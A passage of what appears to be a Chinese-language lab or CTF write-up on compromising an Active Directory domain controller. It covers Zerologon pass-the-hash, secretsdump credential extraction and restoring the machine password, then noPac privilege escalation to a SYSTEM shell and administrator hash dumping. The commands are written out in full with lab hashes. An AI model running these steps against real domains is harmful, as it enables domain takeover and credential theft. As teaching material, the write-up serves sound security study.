

导出哈希后，使用哈希传递执行命令。

```bash
nxc smb $ip -u 'Administrator' -H '898b602f0f94e5e9616f8b749136c69a' -x 'type C:\Users\Administrator\Desktop\root.txt'
```



使用域控管理员哈希传递导出本地 secrets 的 plain_password_hex，还原原始机器密码。

```bash
# 以域管身份读 DC 本地 secrets，自动打印 $MACHINE.ACC 的 plain_password_hex
impacket-secretsdump -hashes aad3b435b51404eeaad3b435b51404ee:898b602f0f94e5e9616f8b749136c69a 'babyad1.dsz/Administrator@192.168.6.240' -target-ip 192.168.6.240
```



还原域控

```bash
# restorepassword.py 脚本还原域控密码，在 CVE-202-1472 目录下
python3 restorepassword.py babyad1.dsz/DC@DC -target-ip 192.168.6.240 -hexpass 6a003e00530069004a003300580041004e0024003000540040003b002e003e0055003300740047004e0033006a0066006400310060006a003d003d0058007200630037006300210056002a00530033004b006500610062002a004b005d003000790051006f00550064005f00610020005a004b006d005e0075002100680021005d0079004800300034005900240030004100670021004600570048005400770046005c00300026007700730022006e006d00770045005d0032005c00550055005a004d00630061002d003a00780057004b007100550022002a00320040006e0060005f00310044002e005b003a006300
```



总结：通过 zerologon 远程认证漏洞，把域控机器账户密码置空（0字节空密码），利用机器账户的复制权限同步域控机器导出全域所有账号的哈希，使用哈希传递执行命令。漏洞利用后，域控数据库中的机器账户密码是0字节空密码，机器本地中的密码没有改变，两处数据不一致，如果不进行还原，会导致域控无法正常工作，使用域管理员进行哈希传递通过 secretsdump 远程读取域控本机 LSA 机密，解密出机器账户的十六进制密码，再利用一次 zerologon 还原域控密码，把原始机器密码写回 AD，使 AD 与本机重新同步，域控恢复正常。

### nopac

noPac 是微软 Active Directory（AD）域服务中 CVE-2021-42278 与 CVE-2021-42287 组合形成的 Kerberos 权限提升漏洞。攻击者只需一个普通域账号，就可能将权限提升至域管理员（Domain Admin）甚至域控 SYSTEM 权限。

CVE-2021-42278（sAMAccountName 欺骗）：AD 未强制校验机器账号的 sAMAccountName 必须以 $ 结尾。普通域用户默认可以创建 10 个机器用户，并将其 sAMAccountName 改为目标域控名去掉 $（如 DC01），从而冒充域控。

CVE-2021-42287（KDC 欺骗）：攻击者用改过名的机器账号 DC01 申请到 TGT 后，把 sAMAccountName 改回原名，再用这张 TGT 通过 S4U2Self 请求访问域控服务（如 cifs/DC01）的 ST。KDC 找不到 DC01，按兼容逻辑补上 $ 再查，命中真实域控机器账号 DC01$，于是用 DC01$ 的密钥加密 ST，并在 S4U2Self 阶段为模拟的域管用户重新生成 PAC。最终攻击者拿到一张客户端身份为域管、服务端为域控的 ST，可直接用于 DCSync 等域控操作。

利用 nopac 漏洞提权域控，项目地址 https://github.com/Ridter/noPac

```bash
git clone https://github.com/Ridter/noPac
cd noPac
# getshell
python noPac.py babyad1.dsz/test:'Baby@2026' -dc-ip 192.168.6.240 -dc-host DC -shell --impersonate administrator -use-ldap
# dump administrator hash
python noPac.py babyad1.dsz/test:'Baby@2026' -dc-ip 192.168.6.240 -dc-host DC --impersonate administrator -dump -use-ldap
```
成功提权到域控机器 system 权限。



